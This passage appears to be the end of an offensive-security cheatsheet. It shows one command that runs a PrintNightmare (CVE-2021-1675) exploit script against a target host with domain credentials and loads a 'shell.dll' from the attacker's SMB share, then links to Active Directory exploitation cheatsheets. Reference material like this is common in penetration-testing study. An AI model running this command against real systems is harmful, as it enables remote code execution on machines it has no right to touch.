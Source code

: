 > python3 CVE-2021-1675.py \<domain>/\<user>:\<password>@\<target-ip> '\\\<attacking-machine-ip>\share\shell.dll'


<br>

### Other cheatsheets

Some cheatsheets that I've used in the past and I've found very useful are:

[https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

[https://gist.github.com/Rajchowdhury420/da4d12a3db13aa5232fcd4e7d96ec6a1](https://gist.github.com/Rajchowdhury420/da4d12a3db13aa5232fcd4e7d96ec6a1)

[https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
